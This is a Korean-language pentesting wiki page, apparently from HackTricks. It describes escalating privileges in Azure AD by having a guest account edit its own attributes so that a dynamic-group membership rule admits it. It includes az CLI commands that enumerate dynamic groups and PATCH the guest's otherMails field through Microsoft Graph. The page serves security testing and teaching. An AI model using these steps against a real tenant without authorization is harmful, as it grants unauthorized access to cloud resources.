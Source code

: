 # Az - Dynamic Groups Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## 기본 정보

**Dynamic groups**는 설정된 **규칙** 세트를 가진 그룹으로, 규칙에 맞는 모든 **사용자 또는 장치**가 그룹에 추가됩니다. 사용자 또는 장치의 **속성**이 **변경**될 때마다 동적 규칙이 **재확인**됩니다. 그리고 **새 규칙**이 **생성**되면 모든 장치와 사용자가 **확인**됩니다.

Dynamic groups는 **Azure RBAC 역할**을 할당받을 수 있지만, **AzureAD 역할**을 동적 그룹에 추가하는 것은 **불가능**합니다.

이 기능은 Azure AD premium P1 라이센스가 필요합니다.

## Privesc

기본적으로 모든 사용자가 Azure AD에서 게스트를 초대할 수 있으므로, 동적 그룹의 **규칙**이 **속성**에 따라 사용자에게 **권한**을 부여하는 경우, 이러한 속성을 가진 **게스트**를 **생성**하여 **권한 상승**을 할 수 있습니다. 게스트는 자신의 프로필을 관리하고 이러한 속성을 변경할 수도 있습니다.

동적 멤버십을 허용하는 그룹 가져오기: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### 예시

- **규칙 예시**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
- **규칙 설명**: 'security' 문자열이 포함된 보조 이메일을 가진 모든 게스트 사용자가 그룹에 추가됩니다.

게스트 사용자 이메일에 대해 초대를 수락하고 [https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView)에서 **해당 사용자**의 현재 설정을 확인합니다.\
불행히도 페이지에서 속성 값을 수정할 수 없으므로 API를 사용해야 합니다:
```bash
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
## References

- [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{{#include ../../../../banners/hacktricks-training.md}}

